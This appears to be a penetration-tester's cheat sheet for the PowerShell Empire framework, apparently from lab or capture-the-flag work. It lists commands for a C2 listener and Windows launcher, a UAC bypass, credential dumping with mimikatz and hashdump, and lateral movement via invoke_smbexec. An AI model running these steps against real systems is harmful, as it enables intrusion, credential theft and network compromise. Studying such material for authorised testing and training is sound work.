 # Empire

### To create a listener

```bash
listeners
```

```bash
uselistener http
```

```bash
set Host 10.11.0.4b
```

```bash
set Name <name_of_listener>
```

```bash
execute
```

```bash
back
```

### To create a launcher

```bash
usestager windows/launcher_bat
```

```bash
set Listener <name_of_listener>
```

```bash
execute
```

### List all available modules

```bash
usemodule [tab][tab]
```

{% hint style="info" %}
The bypassuac\_fodhelper module is quite useful if we have access to a local administrator account. Depending on the local Windows version, this module can bypass UAC and launch a high-integrity PowerShell Empire agent.
{% endhint %}

### Display info abt the module

```bash
info
```

{% hint style="info" %}
If the NeedsAdmin field is set to "True", the script requires local Administrator permissions.
{% endhint %}

{% hint style="info" %}
If the OpsecSafe field is set to "True", the script will avoid leaving behind indicators of compromise, such as temporary disk files or new user accounts.
{% endhint %}

### To see all agents

```bash
agents
```

### Interacting with a particular agent

```bash
interact K678VC13
```

```bash
shell cat /root/flag.txt
```

### Obtaining password hashes

#### Windows:

```bash
usemodule credentials/mimikatz/logonpasswords
```

#### Linux:

```bash
usemodule  collection/linux/hashdump*
```

```bash
execute
```

### To see extracted credentials

```bash
creds
```

### Lateral Movement

```bash
usemodule lateral_movement/invoke_smbexec
```

